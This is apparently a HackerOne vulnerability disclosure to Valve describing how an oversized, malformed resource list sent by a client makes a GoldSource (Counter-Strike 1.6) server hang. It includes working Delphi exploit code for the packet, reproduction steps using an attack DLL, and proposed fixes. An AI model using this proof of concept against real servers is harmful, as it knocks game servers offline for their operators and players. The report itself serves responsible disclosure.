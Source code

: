 # Malformed client to server resource block in GoldSource causes server hang

# Introduction

Client and server in GoldSource engine have the ability to exchange files with each other. The client, as a rule, uploads decals, that is, sprays that can be painted on surfaces, and the server gives back maps, models, sounds, decals as well, and many other things. In this report, I would like to tell how attacker can cause a very long server hangup (in theory - infinite) by malformed packet.

Dear HackerOne team. I studied Valve's policy and, again, ran into some confusion. The vulnerability I want to report is hangups the server. However, the server does not close with an error, it just hangs, not responding to any commands. Freezing takes a long time, theoretically it can last indefinitely, because an attacker can send a new packet when the server "wakes up" (what will happen in a very long time). Can this issue be in the scope? If not, please let me know about it, I will close the report myself. Thanks.

# Description

When connecting to server, client sends information about resources it would like to upload to server. Under normal circumstances, the client only sends the spray, which is stored in tempdecal.wad file. However, an attacker can generate an unusually large list, resulting in a server freeze. I managed to generate a list of resources from only 7280 elements, because if I try to create a list larger, then the server-side network buffer where the packets are stored will be full and the packet will be damaged. Therefore, a list of 7280 items is optimal.

I will attach the code for generating the list of resources that causes the hang.

```delphi
procedure hkCL_SendResourceListBlock; cdecl;
const
  ResourceCount = 7280;
type
  TBlockResource = packed record
    Name: array[0..0] of AnsiChar;
    &Type: Byte;
    Index: Word;
    Size: Longint;
    Flags: Byte;
  end;
var
  I: Integer;

  MsgData: array of TBlockResource;
  Msg: sizebuf_t;
begin
  MSG_ReadLong;
  MSG_ReadLong;

  SetLength(MsgData, ResourceCount);

  Msg.buffername := 'Malformed Client to Server Resource Block';
  Msg.flags := 0;
  Msg.data := @MsgData[0];
  Msg.maxsize := 1 + 2 + Length(MsgData) * SizeOf(MsgData[0]);
  Msg.cursize := 0;

  MSG_WriteByte(Msg, Ord(clc_resourcelist));
  MSG_WriteShort(Msg, ResourceCount);

  for I := 0 to Length(MsgData) - 1 do
  begin
    MSG_WriteString(Msg, '');
    MSG_WriteByte(Msg, Ord(t_model));
    MSG_WriteShort(Msg, I);
    MSG_WriteLong(Msg, -1);
    MSG_WriteByte(Msg, 0);
  end;

  if Msg.cursize > 0 then
  begin
    Netchan_CreateFragments(False, CS^.netchan, Msg);
    Netchan_FragSend(CS^.netchan);
  end;
end;
```

This function is called instead of the original one, forming a malformed resource packet. There is no need to call the original function.

As soon as the server receives this list, it will start processing it inside the SV_RegisterResources function. This function sends the received spray from the client to other connected clients. All received resources are processed, in our case - 7280. An additional problem with the function is an error in the loop. The SV_CreateCustomizationList function, which is called each iteration, creates additional load on the loop. This function should be called only once to create a new list of resources, no more. The original function looks like this:

```cpp
void __cdecl SV_RegisterResources()
{
  int v0; // edi@1
  resource_t *i; // esi@1

  v0 = host_client;
  host_client->uploading = 0;
  for ( i = *(v0 + 19892); i != (v0 + 19764); i = i->pNext )
  {
    SV_CreateCustomizationList(v0);
    SV_Customization(v0, i, 1);
  }
  host_client = v0;
}
```

To reduce the load, it should look like this:

```
void __cdecl SV_RegisterResources()
{
  int v0; // edi@1
  resource_t *i; // esi@1

  v0 = host_client;
  host_client->uploading = 0;
  
  SV_CreateCustomizationList(v0);
  for ( i = *(v0 + 19892); i != (v0 + 19764); i = i->pNext )
  {
    SV_Customization(v0, i, 1);
  }
  host_client = v0;
}
```

I also recorded a video demonstrating how the vulnerability works:

{F1006945}

# How to reproduce

As in the previous reports related to attacks against the server, I developed a library that performs the attack. The instructions for use are as follows:

1. Put the TrackerUI.dll file in the 'cstrike\bin' folder;
2. Launch Counter-Strike 1.6;
3. Run the console command 'exploit_resources' while in menu;
4. Connect to HLDS.

When reaching a certain stage of connection, the server hangs indefinitely.

# How to fix

I can offer several ways to solve this problem:

1. Add a check for the amount of resources received from the client inside the SV_ParseResourceList function. Since the client always only sends a spray, the server should exclude the client if he sent more than one resource.

2. Add a check of the received resource inside the SV_ParseResourceList function. Something like `if (resource->type != t_decal || !(Resource-> ucFlags & RES_CUSTOM) || resource->nDownloadSize <= 0)` should be sufficient. This check will prevent loading files with incorrect size and files that are not decals. If the check fails, then the client will be excluded from the server.

3. Call the SV_CreateCustomizationList function inside SV_RegisterResources only once, before executing the loop. This will optimize loop performance and reduce its stress.

Ideally, all fixes should be combined.

## Impact

An attacker can cause the server hang for an unlimited amount of time.